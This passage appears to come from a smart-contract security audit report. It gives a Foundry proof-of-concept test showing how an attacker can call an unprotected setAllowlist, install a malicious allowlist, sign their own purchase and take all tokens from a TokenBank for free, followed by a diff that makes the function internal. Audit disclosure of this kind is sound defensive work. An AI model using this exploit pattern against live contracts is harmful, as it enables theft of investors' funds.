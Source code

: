 And then add this test to `TokenBankTest.t.sol` (after adding import of `MaliciousSigner`)

```solidity
    function test_cyfrin_buyTokenOCP_for_free() public {
        uint64 TOTAL_TOKENS = 10_000;
        _addCentralToTokenBank(60e6, true, 50_000);

        centralTokenProxy.mint(address(tokenBankProxy), uint64(TOTAL_TOKENS));
        address attacker = getDomesticUser(2);

        (address attackerSigner, uint256 sk) = makeAddrAndKey("BUY_SIGNER");


        /*
         * Attacker sets a malicious Allowlist and signs the buy instead of a Remora Admin
         */
        vm.startPrank(attackerSigner);
        MaliciousAllowlist maliciousAllowlist = new MaliciousAllowlist(attackerSigner);
        tokenBankProxy.setAllowlist(address(maliciousAllowlist));
        bytes32 typeHash = keccak256("BuyToken(address investor, address token, uint256 amount)");
        bytes32 structHash = keccak256(abi.encode(typeHash, attacker, address(centralTokenProxy), uint256(TOTAL_TOKENS)));
        bytes32 digest = MessageHashUtils.toTypedDataHash(tokenBankProxy.getDomainSeparator(), structHash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(sk, digest);
        bytes memory sig = abi.encodePacked(r, s, v);
        vm.stopPrank();

        /*
         * Now attacker buys all the tokens using the signature they created
         */
        vm.prank(attacker);
        tokenBankProxy.buyTokenOCP(attackerSigner, address(centralTokenProxy), TOTAL_TOKENS, sig);
        // attacker receives domestic child tokens
        assertEq(d_childTokenProxy.balanceOf(attacker), TOTAL_TOKENS);
    }
```

**Recommended Mitigation:** Since `SignatureValidator` is an abstract contract, `setAllowlist` should be an internal function.

```diff
-    function setAllowlist(address allowlist) external {
+    function _setAllowlist(address allowlist) internal {
        if (allowlist == address(0)) revert InvalidAddress();
        SVStorage storage $ = _getSVStorageStorage();
        if ($._allowlist != allowlist) {
            $._allowlist = allowlist;
            emit AllowlistSet(allowlist);
        }
    }
```

`TokenBank` should then expose `setAllowlist` as an external function with the `restricted` modifier
